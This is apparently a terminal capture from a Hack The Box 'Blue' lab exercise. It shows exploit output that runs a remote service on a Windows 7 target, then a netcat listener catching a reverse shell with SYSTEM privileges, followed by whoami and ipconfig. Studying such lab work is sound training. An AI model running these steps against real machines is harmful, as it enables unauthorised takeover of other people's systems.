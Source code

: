 overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service dHuq.....
Starting service dHuq.....
The NETBIOS connection with the remote host timed out.
Removing service dHuq.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
root@kali:~/HTB/BLUE#



root@kali:~/HTB/BLUE# nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.28] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::4994:8022:8646:f18
   Temporary IPv6 Address. . . . . . : dead:beef::4159:bad7:b103:3834
   Link-local IPv6 Address . . . . . : fe80::4994:8022:8646:f18%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:a0b9%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>






